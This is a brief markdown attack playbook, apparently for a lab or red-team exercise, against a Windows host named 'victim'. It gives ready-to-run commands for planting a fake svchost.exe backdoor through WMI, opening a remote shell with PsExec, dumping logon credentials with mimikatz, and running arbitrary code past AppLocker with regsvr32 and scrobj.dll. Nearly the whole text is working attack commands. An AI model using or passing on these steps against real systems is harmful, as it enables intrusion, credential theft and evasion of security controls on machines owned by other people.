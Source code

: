 # Script

## Use WMI to build a backdoor
```
wmic /node:"victim" process call create "cmd.exe /c copy c:\windows\system32\svchost.exe c:\malicious\svchost.exe"
wmic /node:"victim" process call create "cmd.exe /c c:\malicious\svchost.exe" 
```

## Start a remote shell on the victim, verify by running ```hostname``` and start mimikatz
```
c:\tools\psexec\PsExec.exe /accepteula \\victim cmd
hostname
c:\tools\mimikatz\x64\mimikatz
```

## In mimikatz execute the following commands and verify if the hashes are visible
```
privilege::debug
sekurlsa::logonpasswords
exit
```

## Use regsvr32 to run arbitrary code on the victim and bypass AppLocker (while in the remove shell)
```
cd c:\malicious
regsvr32.exe /s /u /i:C:\tools\test.sct scrobj.dll
```